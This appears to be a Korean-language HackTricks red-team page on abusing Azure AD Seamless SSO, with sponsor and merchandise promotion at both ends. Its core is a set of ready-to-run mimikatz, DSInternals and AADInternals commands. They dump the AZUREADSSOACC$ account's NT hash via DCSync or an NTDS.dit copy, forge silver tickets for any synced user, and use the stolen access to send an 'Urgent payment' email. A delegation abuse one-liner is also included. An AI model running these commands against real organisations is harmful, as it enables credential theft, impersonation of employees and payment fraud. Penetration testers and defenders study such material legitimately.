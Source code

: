 # Az - 심리스 SSO

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

- **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

## 기본 정보

[문서에서:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO)은 자동으로 **사용자를 회사 장치에 연결된 경우에 로그인**시킵니다. 활성화되면 **사용자는 Azure AD에 로그인할 때 비밀번호를 입력할 필요가 없으며**, 대개 심지어 사용자 이름도 입력하지 않아도 됩니다. 이 기능을 통해 사용자들은 온프레미스 구성 요소가 필요하지 않고 클라우드 기반 애플리케이션에 쉽게 액세스할 수 있습니다.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

기본적으로 Azure AD Seamless SSO는 **온프레미스 도메인 가입 PC**에서 사용자를 **로그인**시킵니다.

[**PHS (Password Hash Sync)**](phs-password-hash-sync.md) 및 [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md)에서 지원됩니다.

데스크톱 SSO는 인증을 위해 **Kerberos**를 사용합니다. 구성된 경우, Azure AD Connect는 온프레미스 AD에 **AZUREADSSOACC`$`**라는 컴퓨터 계정을 만듭니다. `AZUREADSSOACC$` 계정의 암호는 구성 중에 **평문으로 Azure AD로 전송**됩니다.

**Kerberos 티켓**은 암호의 **NTHash (MD4)**를 사용하여 **암호화**되며 Azure AD는 전송된 암호를 사용하여 티켓을 해독합니다.

**Azure AD**는 Kerberos **티켓을 수락하는 엔드포인트**(https://autologon.microsoftazuread-sso.com)를 노출합니다. 도메인 가입된 기기의 브라우저는 SSO를 위해 이 엔드포인트로 티켓을 전달합니다.

### 온프레미스 -> 클라우드

사용자 **`AZUREADSSOACC$`의 암호는 절대 변경되지 않습니다**. 따라서 도메인 관리자는 이 계정의 **해시를 손상시키고** 이를 사용하여 **실버 티켓을 생성**하여 **어떤 온프레미스 사용자와도** Azure에 연결할 수 있습니다:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
해시를 사용하여 이제 **실버 티켓을 생성**할 수 있습니다:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
1. **브라우저 시작:** Mozilla Firefox를 실행합니다.
2. **브라우저 구성:**
   * **`about:config`**로 이동합니다.
   * [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)에 대한 설정을 다음 [값](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)으로 설정합니다:
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **웹 응용프로그램 접속:**
   * 조직의 AAD 도메인과 통합된 웹 응용프로그램에 방문합니다. 일반적인 예는 [Office 365](https://portal.office.com/)입니다.
4. **인증 프로세스:**
   * 로그온 화면에서 사용자 이름을 입력하고 비밀번호 필드는 비워 둡니다.
   * 계속하려면 TAB 또는 ENTER 키를 누릅니다.

{% hint style="success" %}
이는 MFA가 활성화된 경우 MFA를 우회하지 않습니다.
{% endhint %}

#### ~~클라우드 전용 사용자를 위한 케르버스 티켓 생성~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

만약 Active Directory 관리자가 Azure AD Connect에 액세스할 수 있다면, **클라우드 사용자에 대한 SID를 설정**할 수 있습니다. 이렇게 하면 클라우드 전용 사용자에 대한 케르버스 **티켓을 생성할 수 있습니다**. 유일한 요구 사항은 SID가 적절한 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) 여야 합니다.

{% hint style="danger" %}
클라우드 전용 관리자 사용자의 SID 변경은 현재 **Microsoft에 의해 차단**되었습니다.\
자세한 정보는 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)을 확인하세요.
{% endhint %}

### 온프렘 -> 클라우드 리소스 기반 제약 위임을 통한 접속 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

이 계정이 속한 컨테이너 또는 OU에서 컴퓨터 계정(`AZUREADSSOACC$`)을 관리할 수 있는 사용자는 해당 계정에 대해 **리소스 기반 제약 위임을 구성하고 액세스할 수 있습니다**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 참고 자료

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로에서 영웅까지 AWS 해킹 배우기**</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유하세요.**

</details>
